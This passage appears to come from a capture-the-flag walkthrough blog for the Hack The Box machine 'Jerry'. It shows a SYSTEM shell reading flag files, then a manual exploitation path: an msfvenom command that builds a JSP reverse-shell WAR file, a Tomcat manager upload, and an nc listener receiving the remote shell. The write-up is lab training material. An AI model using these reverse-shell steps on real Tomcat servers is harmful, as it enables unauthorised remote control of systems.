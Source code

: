 yes, we got shell, the good thing is we don’t need to spend time on privilege escalation.  

```bash {hl_lines=[1, 9]}
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt
type "2 for the price of 1.txt
user.txt
7004dbcef0f854e0----------
root.txt
04a8b36e1545a4553-------------
C:\Users\Administrator\Desktop\flags>whoami
whoami
nt authority\system
```

## Exploiting via Manual Method 

{{< img src="/images/hackthebox/jerry/3.png" alt="image alt" width="1000px"  position="center" >}}

We know the platform and web server, using the known information create revers shell using msfvenom 

```bash
┌─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/jerry]
└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.33 LPORT=9999 -f war -o rshell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes
Saved as: rshell.war
```

we already know, there is an upload feature which accept .war format templet, based on that we have created payload,  lessen the configured  port  and upload the payload and click Deploy

``` bash
┌─[✗]─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/jerry]
└──╼ $nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.33] from (UNKNOWN) [10.129.159.199] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

{{< notice success "we have successfully owned " >}}
See you on the next Blog, Happy hacking...
{{< /notice >}}